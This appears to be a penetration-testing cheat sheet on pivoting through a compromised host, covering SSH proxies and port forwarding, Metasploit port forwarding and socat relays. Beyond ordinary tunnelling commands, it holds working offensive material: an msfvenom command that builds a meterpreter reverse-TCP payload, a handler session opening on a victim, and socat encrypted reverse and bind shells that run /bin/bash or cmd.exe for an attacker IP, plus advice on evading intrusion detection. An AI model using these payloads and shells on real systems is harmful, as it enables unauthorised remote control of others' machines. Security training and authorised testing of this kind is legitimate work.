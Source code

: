 ```yaml
---
title: Proxy & Port forwarding
description: Desciption of two pivot techniques, port forwarding and proxy.
---
```


# Proxy & Port forwarding

**2 methods :**

- **Tunnelling/Proxying:** Creating a proxy type connection through a compromised machine in order to route all desired traffic into the targeted network. This could potentially also be _tunnelled_ inside another protocol (e.g. SSH tunnelling), which can be useful for evading a basic **I**ntrusion **D**etection **S**ystem (IDS) or firewall.
- **Port Forwarding:** Creating a connection between a local port and a single port on a target, via a compromised host.

Port Forwarding tends to be faster and more reliable, but only allows us to access a single port (or a small range) on a target device.

## Using SSH

### Proxy

**Proxy :** http://127.0.0.1:8080

```bash
ssh -D 8080 user@example.com -fN
```

**Proxy :** socks5://127.0.0.1:9050

```bash
ssh -g -D 9050 user@example.com -fN
```

### Port forwarding (local)

The `example.com` machine has a web server running on port 8000 internally (not exposed to the internet). With the following command you can now access the web server from `http://localhost:4444`.

```bash
ssh -L 4444:127.0.0.1:8000 user@example.com -fN
```

- `-f` : Backgrounds ssh.
- `-N` : Do not execute a remote command.

### Port forwarding (remote)

**Goal :** localhost:4444 -> host1:4444 -> host2:80

Listen on all interfaces :

```bash
# localhost:4444 -> host1:4444 -> host2:80
ssh -R 0.0.0.0:4444:host2:80 user@host1 -fN
```

!!! warning
    You need also to configure SSH daemon on target host to allow client to specify the bind_address. It is prohibited by default to listen to all interfaces. So, you will always find it listening on loopback even if you specifiy 0.0.0.0 as bind_address.

When you cannot listen on all interfaces :

```bash
# localhost:4444 -> host1:4444
ssh -L 4444:127.0.0.1:4444 user@host1 -fN
# host1:4444 -> host2:80
ssh -R 4444:host2:80 user@host1 -fN
```

## Using metasploit (meterpreter)

### Port forwarding

- Generate the exploit with `msfvenom`.

```bash
$ msfvenom -p 'linux/x64/meterpreter_reverse_tcp' LHOST=10.132.0.2 LPORT=9001 -f elf > exploit.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 1037272 bytes
Final size of elf file: 1037272 bytes

$ file exploit.bin
exploit.bin: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), static-pie linked, with debug_info, not stripped
```

- Setup listener

```bash
$ msfconsole
...
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST ens4
LHOST => 10.132.0.2
msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > set PAYLOAD linux/x64/meterpreter_reverse_tcp
PAYLOAD => linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.132.0.2:9001
[*] Meterpreter session 1 opened (10.132.0.2:9001 -> 10.154.0.2:45462 ) at 2021-10-19 19:27:31 +0000

meterpreter >
```

- Do port forwarding

```
meterpreter > portfwd add -l 4444 -p 8000 -r 127.0.0.1
[*] Local TCP relay created: :4444 <-> 127.0.0.1:8000
meterpreter > portfwd list

Active Port Forwards
====================

   Index  Local           Remote        Direction
   -----  -----           ------        ---------
   1      127.0.0.1:8000  0.0.0.0:4444  Forward

1 total active port forwards.

meterpreter > portfwd delete -l 4444 -p 8000 -r 127.0.0.1
[*] Successfully stopped TCP relay on 0.0.0.0:4444
```

`-l` : Port on your local machine (attacker machine).
`-p` : Port on the remote machine (victim machine).
`-r` : Target host.

## Using socat

### Port forwarding

```bash
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```

Listent on `33060`, then redirect to `172.16.0.10:3306`.

- `fork` : create new process for every connection.
- `reuseaddr` : port stays open after a connection close.

### Encrypted shell

Generate certificates :

```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
cat shell.key shell.crt > shell.pem
```
Reverse shell :

```bash
# Listener (attacker)
socat OPENSSL-LISTEN:4444,cert=shell.pem,verify=0 -

# Connection (victim)
./socat OPENSSL:10.10.10.1:4444,verify=0 EXEC:/bin/bash
```

Bind shell :

```bash
# Listener (victim)
./socat OPENSSL-LISTEN:4444,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes

# Connection (attacker)
socat OPENSSL:10.10.200.1:4444,verify=0 -
```

## Using chisel

- [Chisel](https://github.com/jpillora/chisel)